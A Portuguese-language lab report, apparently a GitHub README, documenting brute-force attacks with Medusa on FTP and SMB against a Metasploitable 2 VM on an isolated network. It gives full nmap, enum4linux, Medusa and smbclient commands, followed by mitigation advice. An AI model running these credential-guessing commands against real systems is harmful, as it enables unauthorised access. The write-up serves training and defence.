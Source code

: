 # 🛡️ Relatório de Auditoria de Segurança: Força Bruta com Kali Linux e Medusa

## 📜 Visão Geral do Projeto

Este relatório documenta uma auditoria de segurança focada na simulação de ataques de **Força Bruta** contra serviços de rede comuns, utilizando as ferramentas **Kali Linux** e **Medusa**. O projeto visa demonstrar a criticidade do uso de credenciais robustas e a necessidade de mecanismos de defesa proativos.

**Alvo:** Máquina Virtual Metasploitable 2 (Ambiente de Teste Controlado)
**Ferramentas:** Kali Linux, Medusa, Nmap (para reconhecimento)

---

## ⚙️ I. Configuração do Ambiente e Reconhecimento

### 1. Topologia da Rede
* **Kali Linux (Atacante):** [192.168.227.129]
* **Metasploitable 2 (Alvo):** [192.168.227.128]
* **Tipo de Rede:** Host-Only.

### 2. Reconhecimento (Nmap)
* **Comando Nmap utilizado:** `nmap -sV 192.168.227.128`
* **Serviços Encontrados:** `ftp, ssh, telnet, smb...`

## 🧩 Requisitos e Preparação do Ambiente

**Pré-requisitos (na máquina atacante — Kali):**
- Kali Linux atualizado (rolling)
- Medusa (v2.x) instalado
- Hydra (opcional) / smbclient / enum4linux / nmap / tcpdump
- Wordlists dentro da pasta `wordlists/`
- Rede: VirtualBox Host-Only (Kali e Metasploitable na mesma rede interna)

**Configuração das VMs**
- Kali Linux (Atacante): IP ex.: `192.168.227.129`
- Metasploitable2 (Alvo): IP ex.: `192.168.227.128`
- Rede: tipo *Host-Only* (garante isolamento)

**Como reproduzir o laboratório (resumo)**
1. Inicie as duas VMs (Kali + Metasploitable2) em VirtualBox com adaptadores em Host-Only.
2. Confirme conectividade: `ping 192.168.227.128`
3. No Kali, verifique ferramentas instaladas:
   ```bash
   medusa -h | head -n 5
   nmap --version
   smbclient --version
   enum4linux -h

---

## ## II. Cenários de Ataque de Força Bruta

> **Observação:** Estes cenários foram executados em ambiente controlado (Metasploitable2) e documentados com evidências (logs e screenshots).
```
---

### Cenário 1: Quebra de Senha no Serviço FTP (Medusa)

| Protocolo | Porta | Wordlist Utilizada |
| :--- | :---: | :--- |
| FTP | 21 | wordlists/ftp_passwords.txt & users.txt |

**Alvo:** 192.168.227.128 (Metasploitable 2)  
**Ferramenta:** Medusa (`-M ftp`)  
**Objetivo:** Demonstrar força-bruta contra serviço FTP e validar credenciais obtidas.

#### Enumeração / Reconhecimento
```bash
# Reconhecimento rápido do serviço FTP
nmap -sV -p21 192.168.227.128 | tee nmap_ftp.txt

# Comando de Execução (Medusa)
medusa -M ftp -h 192.168.227.128 -U wordlists/users.txt -P wordlists/ftp_passwords.txt -t 4 -v 4 -f |& tee medusa_ftp_run.log

# Validação manual (exemplo) 
Use um cliente FTP para validar qualquer credencial encontrada:
ftp 192.168.227.128
# ou, se preferir, use um cliente que permita user%pass no comando:
# curl --ftp-ssl -u user:password ftp://192.168.227.128/
```
---

### Cenário 2: Quebra de Senha no Serviço SMB (Medusa)

| Protocolo | Porta | Wordlist Utilizada |
| :--- | :---: | :--- |
| SMB | 139 & 445 | wordlists/smb_passwords_small.txt & wordlists/users.txt |

**Alvo:** 192.168.227.128 (Metasploitable 2)  
**Módulo Medusa:** `smbnt`  
**Objetivo:** Demonstrar força-bruta / password spraying em SMB e validar credenciais obtidas.

#### Enumeração / Reconhecimento
```bash
# Enumerar usuários e shares (salvar saída para evidência)
enum4linux -a 192.168.227.128 | tee enum4linux_all.txt
enum4linux -U 192.168.227.128 | tee enum4linux_users.txt
smbclient -L //192.168.227.128 -N | tee smbclient_shares.txt

# Comando de Execução (Medusa)
`medusa -M smbnt -h 192.168.227.128 -U wordlists/users.txt -P wordlists/smb_passwords_small.txt -t 2 -v 4 -f |& tee medusa_smb_run.log

# Validação manual (exemplo obrigatório)
# Validar credenciais encontradas (ex.: msfadmin:msfadmin)
smbclient //192.168.227.128/IPC$ -U 'msfadmin%msfadmin' -W WORKGROUP -c 'ls; exit' | tee smb_validation_msfadmin.log

# Extra: extrair resultados do log do Medusa
# procurar linhas que indiquem sucesso
grep -E "SUCCESS|FOUND|LOGIN" -i medusa_smb_run.log || true
```
---

## III. Recomendações de Mitigação e Defesa

Os ataques de Força Bruta contra serviços como FTP e SMB foram bem-sucedidos devido à utilização de senhas fracas e à ausência de mecanismos de limitação de taxa de conexão. Para mitigar o risco, as seguintes ações defensivas são recomendadas:

### 1. Política de Senhas Fortes
* **Forçar Complexidade:** Implementar uma política de senhas que exija um comprimento mínimo (idealmente 14+ caracteres) e a utilização de uma combinação de letras maiúsculas, minúsculas, números e símbolos.
* **Proibição de Padrões:** Banir senhas padrão, comuns ou de dicionário (como "msfadmin", "password", "user").

### 2. Controles de Acesso e Autenticação
* **Bloqueio de IP (Rate Limiting):** Implementar ferramentas de controle de acesso como **Fail2Ban** no servidor. Essa ferramenta monitora logs de autenticação e bloqueia automaticamente endereços IP (o seu alvo é `192.168.227.128`) que tentarem realizar *logins* malsucedidos repetidamente em um curto espaço de tempo.
* **Restrição de Serviços:** Se um serviço (como o FTP ou SMB) não for essencial para o acesso externo, restrinja-o para ser acessível apenas a partir de endereços IP confiáveis na rede interna.

### 3. Criptografia e Segurança do Serviço
* **Desabilitar ou Substituir Serviços Não Criptografados:** O FTP transmite credenciais em texto claro. Substitua o FTP por **SFTP (SSH File Transfer Protocol)** ou **FTPS**, que criptografam a comunicação.
* **Atualização do SO e Serviços:** O Metasploitable 2 está utilizando versões antigas de serviços (como o vsftpd 2.3.4). Manter o sistema operacional e os serviços atualizados garante que vulnerabilidades conhecidas (exploits) sejam corrigidas.
